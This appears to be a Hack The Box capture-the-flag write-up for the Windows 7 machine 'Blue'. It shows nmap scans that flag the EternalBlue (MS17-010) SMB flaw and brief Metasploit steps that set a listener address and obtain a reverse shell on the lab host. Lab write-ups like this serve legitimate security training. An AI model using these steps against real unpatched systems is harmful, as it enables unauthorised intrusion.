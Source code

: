```yaml
---
layout: default
title: BLUE
description: by HACK THE BOX
---
```


<h3 align="center">
Blue is a Windows 7 machine that has a the infamous Eternal Blue vulnerability
</h3>

# Enumeration

1. Nmap

   ```
   └─$ nmap -A -T4 10.10.10.40
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 16:06 EST
   Nmap scan report for 10.10.10.40
   Host is up (0.037s latency).
   Not shown: 991 closed tcp ports (conn-refused)
   PORT      STATE SERVICE      VERSION
   135/tcp   open  msrpc        Microsoft Windows RPC
   139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
   445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
   49152/tcp open  msrpc        Microsoft Windows RPC
   49153/tcp open  msrpc        Microsoft Windows RPC
   49154/tcp open  msrpc        Microsoft Windows RPC
   49155/tcp open  msrpc        Microsoft Windows RPC
   49156/tcp open  msrpc        Microsoft Windows RPC
   49157/tcp open  msrpc        Microsoft Windows RPC
   Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

   Host script results:
   | smb-security-mode:
   |   account_used: guest
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   | smb2-security-mode:
   |   2.1:
   |_    Message signing enabled but not required
   | smb2-time:
   |   date: 2021-11-27T21:08:26
   |_  start_date: 2021-11-27T21:03:16
   | smb-os-discovery:
   |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
   |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
   |   Computer name: haris-PC
   |   NetBIOS computer name: HARIS-PC\x00
   |   Workgroup: WORKGROUP\x00
   |_  System time: 2021-11-27T21:08:25+00:00
   |_clock-skew: mean: 1m15s, deviation: 1s, median: 1m14s

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 69.53 seconds
   ```

2. Also I tried to scan the machine with NMAP for known vulnerabilities

   ```
   ─$ nmap -T4 10.10.10.40 --script vuln
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 16:08 EST
   Pre-scan script results:
   | broadcast-avahi-dos:
   |   Discovered hosts:
   |     224.0.0.251
   |   After NULL UDP avahi packet DoS (CVE-2011-1002).
   |_  Hosts are all up (not vulnerable).
   Nmap scan report for 10.10.10.40
   Host is up (0.043s latency).
   Not shown: 991 closed tcp ports (conn-refused)
   PORT      STATE SERVICE
   135/tcp   open  msrpc
   139/tcp   open  netbios-ssn
   445/tcp   open  microsoft-ds
   49152/tcp open  unknown
   49153/tcp open  unknown
   49154/tcp open  unknown
   49155/tcp open  unknown
   49156/tcp open  unknown
   49157/tcp open  unknown

   Host script results:
   |_smb-vuln-ms10-054: false
   |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
   | smb-vuln-ms17-010:
   |   VULNERABLE:
   |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
   |     State: VULNERABLE
   |     IDs:  CVE:CVE-2017-0143
   |     Risk factor: HIGH
   |       A critical remote code execution vulnerability exists in Microsoft SMBv1
   |        servers (ms17-010).
   |
   |     Disclosure date: 2017-03-14
   |     References:
   |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
   |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
   |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

   Nmap done: 1 IP address (1 host up) scanned in 135.34 seconds
   ```

3. Found that it might be vulnerable with CVE-2017-0143. Let's read about it in google.

# Foothold

4. So it looks like there is a metasploit exploit for this one. Let's run MSFCONSOLE
5. In metasploit, lets set the following
   - set RHOSTS 10.10.10.40
   - set LHOST <to you tun0 IP>
   - then run the exploit
6. After a few seconds, we got a reverse shell.
7. Root flag is located at C:\Users\Administrator\Desktop\root.txt
8. User flag is located at C:\Users\haris\Desktop\user.txt

# Reference

1. https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0143/
2. https://www.exploit-db.com/exploits/42315

<br><br>

[back to HOME](./)
